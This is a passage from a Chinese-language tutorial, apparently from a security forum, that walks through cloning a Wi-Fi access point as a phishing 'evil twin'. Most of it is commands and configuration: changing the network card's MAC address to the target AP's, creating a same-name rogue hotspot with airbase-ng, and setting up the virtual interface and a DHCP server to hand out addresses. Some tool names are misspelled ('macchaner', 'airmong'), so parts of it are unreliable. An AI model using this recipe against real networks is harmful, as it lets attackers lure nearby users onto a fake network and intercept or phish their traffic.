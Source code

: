 ![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-6f585ebaad8882cb933e469dadd0fa84021cc3b6.png)  
如果没有成员的话可以插拔一下网卡（我才不会因为在复现过程中没看到网卡关闭等了十几分钟这件事说出来）

6.克隆Wi-Fi钓鱼热点  
需要伪造一个同名，同mac地址的钓鱼热点  
更改网卡mac地址步骤：

```php
sudo ifconfig device2 down
sudo macchaner device2 -m <newmac> //注意，请将这里的newmac更改为目标AP点的mac地址
sudo ifconfig device2 up
```

伪造热点：

```php
sudo airmong start wlan2 //开启网卡的监听模式
sudo airbase-ng -e <target SSID>  -c <channel> <device2> //讲trget SSID更改为目标SSID，并且channel更改成不同的信道
sudo ifconfig at0 up //启动虚拟网关
sudo vi /etc/network/interfaces
------------------------------
//配置虚拟网卡地址参数
auto at0
iface at0 inet static
address 192.168.199.1  //这里最好与目标ap点的管理页面一样
netmask 255.255.255.0
------------------------------
sudo service networking restart //重启网卡服务
ifconfig at0查看at0网卡，如果没有ip地址或者不存在，重试以上步骤,注意！必须先使用airbase-ng创建AP点,at0网卡才会被可用！
```

配置DHCP:

```php
sudo vi /etc/dhcp/dhcpd.conf
设置子网 掩码 分配地址范围等
在里面添加：
subnet 192.168.199.0 netmask 255.255.255.0{
    range 192.168.199.100 192.168.199.150;
    option routers 192.168.199.1;
    option subnet-mask 255.255.255.0;
    option domain-name-servers 192.168.178.99; //注意这里的doamin地址需要自己更换
}
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-29719f13c19b7895326ccbb60d3a140c17c6bf3f.png)

```php
进入下一配置文件，将at0指定为dhcp请求网卡
sudo vi /etc/default/isc-dhcp-server
将其中的INTERFACESv4=""更改为INTERFACESv4="at0"
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-cfdf9a37e3490d82bda1d3f34cd8e59e11abd927.png)
